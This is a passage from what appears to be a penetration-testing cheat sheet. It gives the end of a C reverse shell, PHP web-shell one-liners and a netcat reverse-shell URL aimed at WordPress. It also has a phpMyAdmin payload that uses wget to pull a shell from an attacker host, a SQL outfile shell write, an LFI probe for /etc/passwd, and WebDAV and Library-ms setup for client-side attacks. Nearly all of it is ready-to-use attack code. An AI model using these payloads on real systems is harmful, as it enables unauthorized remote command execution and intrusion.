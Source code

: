 ```c

dup2(scktd,0); // STDIN
dup2(scktd,1); // STDOUT
dup2(scktd,2); // STDERR

execl("/bin/sh","sh","-i",NULL,NULL);

return 0;
```

## Web Shell
- php : https://github.com/ivan-sincek/php-reverse-shell?tab=readme-ov-file
- aspx : https://github.com/borjmz/aspx-reverse-shell
```php
#wordpress
http://x.x.x.x/404.php?cmd=id
http://x.x.x.x/404.php?cmd=nc x.x.x.x 4444 -e /bin/sh

<? php echo shell_exec($_GET['cmd']); ?>
<? passthru($_GET["cmd"]); ?>
<? php echo shell_exec($_GET["cmd"]); ?>

#phpMyAdmin
<? php system("/usr/local/bin/wget http://x.x.x.x:4444/php-reverse-shell.php -O /var/tmp/hodor.php 2>&1"); ?>

#SQLQuery
SELECT "" into outfile "C:\\xampp\\htdocs\\shell.php"

#LFI reverse shell
http://x.x.x.x/blah?parameter=/etc/passwd%00
```

# Client Side Attack
## Microsoft Office documents containing Macros 

```bash
# set up Webdav share
mkdir /home/kali/beyond/webdav
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/beyond/webdav/

#on windows machine create new text file "config.Library-ms", paste the below code, edit the ip "http://192.168.119.5". and transfer to kali
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.5</url>
</simpleLocation>
</searchConnectorDescription>
```